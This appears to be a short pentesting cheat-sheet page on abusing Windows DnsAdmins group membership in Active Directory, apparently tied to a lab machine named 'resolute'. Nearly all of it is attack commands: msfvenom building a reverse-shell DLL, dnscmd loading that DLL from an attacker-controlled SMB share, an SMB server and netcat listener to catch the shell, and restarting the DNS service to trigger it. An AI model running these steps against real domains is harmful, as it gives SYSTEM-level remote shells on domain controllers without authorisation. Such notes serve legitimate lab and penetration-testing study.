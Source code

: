 # DnsAdmins
DnsAdmins is a Windows group specifically for administering DNS servers in an Active Directory environment. Members of this group have extensive control over DNS services without needing full Domain Admin privileges.

# Steps
1. Create a dll binary and upload it
2. inject dll
3. start smb server and listner
4. stop or start service


# create dll with msfvenom
```language
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$ip LPORT=$port -f dll -o rev.dll
```
# Inject dll
```language
dnscmd.exe /config /serverlevelplugindll \\attacker-ip\s\rev.dll
```
# smb server for Response check and start the listner
```language
smbserver.py s .

rlwrap nc -lvnp 9001
```
# start stop service
```language
sc.exe \\resolute stop dns

sc.exe \\resolute start dns
```
